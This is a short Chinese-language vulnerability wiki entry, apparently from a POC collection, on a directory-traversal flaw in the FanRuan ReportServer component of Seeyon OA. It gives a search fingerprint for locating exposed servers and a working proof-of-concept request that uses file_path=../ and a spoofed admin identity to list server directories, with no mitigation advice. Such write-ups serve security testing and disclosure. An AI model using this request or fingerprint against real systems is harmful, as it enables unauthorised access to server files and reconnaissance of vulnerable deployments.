 # 致远OA 帆软组件 ReportServer 目录遍历漏洞

## 漏洞描述

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>致远OA 帆软组件 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="致远A8-V5协同管理软件 V6.1sp1"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1658380405460-276c39d7-9ccc-4136-b334-e6bf2353447d.png)

验证POC

```php
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![img](/assets/PeiQi-Wiki/img/1658380435375-7c6730da-7b22-4892-806c-f11da57d6e60.png)